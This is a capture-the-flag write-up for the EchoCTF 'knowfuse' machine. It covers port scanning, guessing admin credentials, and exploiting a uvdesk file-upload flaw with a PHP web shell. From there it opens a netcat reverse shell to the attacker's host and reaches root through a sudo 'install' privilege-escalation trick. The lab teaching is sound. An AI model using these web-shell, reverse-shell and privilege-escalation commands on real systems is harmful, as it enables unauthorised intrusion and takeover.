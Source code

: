 # knowfuse Writeup for EchoCTF

In this writeup, we will be walking through the steps to exploit a vulnerable version of [uvdesk](https://www.uvdesk.com/en/) and escalate privileges to root on knowfuse in EchoCTF.

### Step One: Port Discovery

We use [Nmap](https://nmap.org/) to scan the open ports 

```
nmap -p1-10000 -sCV -n -Pn -v [TARGET_IP] 
```

*p1-10000: Scans ports 1 through 10,000.  
sCV: Combines service detection (-sV) with default script scans (-sC) to enumerate service versions and vulnerabilities.  
n: Skips DNS resolution for faster scanning.  
Pn: Treats the target as online without pinging, useful for firewalled hosts.*

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/nmap%20scan.png)

We see port **22** (SSH) and port **80** (HTTP)

### Step Two: Getting In

We visit the HTTP website (port 80).  
We are prompted to the login page for the uvdesk **customer**. Now, this one is a bit tricky in the sense that you need to find the admin login page, not the customer login page. Do find this, we need to look at the documentation of uvdesk, which can be found through quick online search. In any case, the login portal for this challenge can be found in this url:

```
http://[TARGET_IP]/uvdesk/public/en/member/login
```

We head over to the **member** login page, and it asks for credentials. But where do we find these?  
 *Given that now, unlike other challenges, the site asks for an email and there are no default credentials for uvdesk, this was hard to find.*  

Taking a look at the challenge description, we see the following:  
`The easiest way to install knowledge into you through the power of fusion. Its as easy as calling our Adm1n and counting 123#`

Three key takeaways from this:  
1) We need to 'call the admin', which probably means that the username is admin-at-something.com 
2) The password is something along the lines of 123#  
3) 'Adm1n' also looks like a password!  

So, after many attempts and a lot of time trying different combinations, we finally find the login credentials
``admin@knowfuse.echocity-f.com``

``Adm1n123#``

Great! We are in! But now what?  

*Searching online for a uvdesk exploit, we find that on version 1.1.1 there is 'RCE via file upload' vulnerability.*   
Perfect!  

#### Step Three: Exploit uvdesk

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/location.png)

Going to the knowledgebase part of the dashboard and clicking **+NEW FOLDER**, we find the vulnerable image upload field.  

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/file%20upload%20vulnerability.png)
Next step is to get a reverse shell on the server using the vulnerability we just found.  

First of all, we need to open [BurpSuite](https://portswigger.net/burp). 
We select a PNG image, and then capture the upload request that is sent by clicking **SAVE CHANGES**.

Insert a php script into your image that will enable you to get a reverse shell.  
For example:

```php
 <?php system ($_GET['cmd']) ?>
 ```
 or

 ```php
 <?php passthru($_GET['cmd']); __halt_compiler(); ?>
 ```

It should look something like this
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/php%20shell%20on%20burp.png)

With our php script uploaded, we need to set up a reverse shell, which is done like so:

Open the bash console and type

```nc -nlvp [YOUR_PORT]```

Then, in the url of the image (*which can be copy+pasted from the page source*), we insert this payload to get a reverse shell    

`.../filename.php?cmd= nc -e /bin/bash [YOUR_IP] [YOUR_PORT]`

After we've successfully created a reverse shell, we need to see how we can escalate our privileges to root.

### Step Four: Getting Root

We have a connection! To pwn the machine, we finally have to get root privileges. Lets see how this is done.  

If we run   
`sudo -l`  
the server returns `/usr/bin/install` 

![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/sudo%20-l.png)

After searching on [GTFObins](https://gtfobins.github.io/), i found that the [install](https://gtfobins.github.io/gtfobins/install/#sudo) binary file can be used for privilege escalation when ran with sudo.  
So, we use the file `/bin/bash` to get root privileges.

```
LFILE=/bin/bash
TF=$(mktemp)
sudo install -m 6777 $LFILE $TF
$TF -p
```  
![](https://raw.githubusercontent.com/CyberSpokes/writeups/refs/heads/main/knowfuse/images/use%20of%20install%20binary%20for%20privilege%20escalation%20with%20proof%20(id).png)

And we have root!

### Final Thoughts

This challenge took me quite a while to complete, because figuring out how the install binary works was kind of tricky. Also, since I couldn't brute force or find the credentials, I actually had to use my brain for once.


From a techical standpoint, this challenge highlights how even a seemingly harmless file/command, could have devastating effects on a machine. By demonstrating such occurences in a virtual envirorment in a realistic fashion, we are able to learn how better to secure systems and servers.

PS: 
```
[YOUR_IP]= Your VPN IP 
[YOUR_PORT]= Custom port to use for netcat
[TARGET_IP]= IP of the machine you are hacking 
```